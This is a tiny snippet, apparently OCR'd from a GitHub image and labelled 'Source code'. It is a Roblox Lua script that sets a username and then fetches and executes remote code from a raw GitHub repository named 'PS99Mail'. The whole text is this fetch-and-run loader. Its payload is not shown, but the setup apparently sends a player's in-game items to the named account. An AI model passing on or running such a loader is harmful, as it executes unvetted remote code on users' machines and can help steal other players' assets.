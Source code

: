 Username = "PogrzaloCie"
loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/PS99Mail/main/Mementomori"))()

